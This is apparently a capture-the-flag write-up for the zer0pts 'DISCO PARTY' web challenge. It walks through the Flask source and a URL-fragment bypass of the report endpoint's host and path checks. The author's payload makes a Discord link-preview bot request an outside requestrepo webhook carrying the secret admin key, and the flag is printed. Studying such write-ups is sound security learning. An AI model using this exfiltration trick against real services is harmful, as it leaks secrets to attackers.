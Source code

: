 # DISCO PARTY

## Description

There's maybe nothing special in description. 🤔
![Oops](./image/description.jpg)

## 💻 Explore the website

![Oops](./image/home.jpg)

There are 3 buttons here. The first two buttons seem common, so let try the last one.

I am allowed to create an invitation and to report issues about invitation.

![Oops](./image/test_web.gif)

Each invitation has a unique id.

## 🧑‍💻 Processing:
**web/app.py:** This file contains server code. There are some endpoints:

- `/post/<string(length=16):id>`: I can get an invitation through this endpoint by supplying `id` (`len(id) == 16`). Besides, I can supply a `key` and make `is_admin` take value `True` to receive the flag. Maybe my target is `key` value.

- `/api/new`: This endpoint creates post. I POST `title`, `content` and server will generate `id` for that post. Posts will be saved in database (`id`, `title`, `content`).

- `api/delete`: Deletes a post if I had `id` and `key`.

- `/api/report`: This endpoint takes my reports (`url`, `reason`, `g-recaptcha-response`). There are a lot of check stages here. After all, `message` will be saved in database. Look at the message form: 
    ```py 
    message = f"URL: {url}?key={key}\nReason: {reason}"
    ```

Because there is bot directory, maybe I need to bypass check stages and make message contain my webhook like:
```py
f'URL: http://hjvnswkt.requestrepo.com?key={key}\nReason: something'
```
Or some messages similar. And the bot will click on the URL/send request and the key will be revealed. (In an ideal scenario) 🤤 

Let's check it out.



**bot/crawler.py:** 🤖

This bot is in a secret channel and will send/chat my message which is from `/api/report` endpoint.

There is no click here 😿.

I was stuck here for a very long time. 

Then I realized every big platforms like Discord have their own bots, and they click every URL in the conversation automatically. 

🤔 *Really? I don't believe, prove it.* 

🤓As you wish:

- Setup a webhook:
![Oops](./image/setup_requestrepo.jpg)

- Send a message which contains the webhook URL:


    ![Oops](./image/chat_url.jpg)

- And receive requests:
![Oops](./image/request_discord_bot.jpg)

So, my plan is craft a message that contains `http://hjvnswkt.requestrepo.com/?key={key}` to get `key`.

**Bypass:**

```py
# Check URL
parsed = urllib.parse.urlparse(url.split('?', 1)[0])
if len(parsed.query) != 0:
    return flask.jsonify({"result": "NG", "message": "Query string is not allowed"})
if f'{parsed.scheme}://{parsed.netloc}/' != flask.request.url_root:
    return flask.jsonify({"result": "NG", "message": "Invalid host"})

# Parse path
adapter = app.url_map.bind(flask.request.host)
endpoint, args = adapter.match(parsed.path)
if endpoint != "get_post" or "id" not in args:
    return flask.jsonify({"result": "NG", "message": "Invalid endpoint"})

# Check ID
if not get_redis_conn(DB_TICKET).exists(args["id"]):
    return flask.jsonify({"result": "NG", "message": "Invalid ID"})
```

The first part makes sure my host (input `url`) is equal to server host.

The second part checks path of my URL which have to have `/post/<string(length=16):id>` form and there is `id` in request.

The last part takes `id` undercontrol (exists in database).

I think about a way. I use fragment to craft because none of three parts above do anything with fragment. This is my URL: `http://party.ctf.zer0pts.com:8007/post/UCs0yCK4AJwgyQnX# http://hjvnswkt.requestrepo.com`.

The space after `#` is necessary.
![Oops](./image/space_needed.jpg)

I just send report with that URL. Get key in requestrepo.
![Oops](./image/key.jpg)

And get the flag.
![Oops](./image/flag.jpg)

**🚩Flag: `zer0pts
{4h_p4rad1s3_l05t_6b4f6fbf5ee51003}`**

## 🤓 Notes:
There are some features I can abuse (Discord, Facebook, ... bot).
